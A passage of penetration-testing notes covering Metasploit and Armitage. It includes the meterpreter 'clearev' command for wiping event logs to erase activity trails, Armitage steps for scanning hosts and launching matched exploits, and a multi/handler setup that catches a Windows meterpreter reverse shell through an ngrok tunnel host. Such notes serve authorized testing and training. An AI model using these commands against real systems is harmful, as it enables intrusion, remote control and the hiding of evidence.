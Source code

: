 Use `clearev`  to wipe out all the logs and clear our activity trails.
```bash
#In a meterpreter shell
clearev
```
---
# Armitage
To start Armitage:
```bash
#Start postgresql
sudo Service postgresql start

#Start metasploit
msfconsole

#Start armitage
armitage
```
Add a host to attack
1. Click on the Hosts menu.
2. Select the Add Hosts option.
3. You can add multiple hosts per line.

![[armitage.png]]
## Scanning-and-enumeration
Right-click on the host and select the Scan
option.

![[armscan.png]]

**To initiate an NMAP scan:**
1. Click on the Hosts option.
2. Select the nmap scan.
3. Select the Quick Scan (OS Detect) option.

## Finding-and-launching-attacks
1. Select the Attacks menu.
2. Click on Find Attacks.
3. Now, the Armitage console will query the backend database for all the possible matching exploits against the open ports that we found during our enumeration earlier.
4. Once the Armitage console finishes querying for possible exploits, you can see the list of applicable exploits by right-clicking on the host and selecting the Attack menu.
### Further reading
 - http://www.fastandeasyhacking.com/

---
# Shell-Over-Wan
```
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse__tcp  
set LHOST 4.tcp.ngrok.io  
set LPORT 13161  
set ReverseListeningBindAddress localhost  
set ReverseListeningBindPort 8080  
exploit
```
# Importing-external-exploits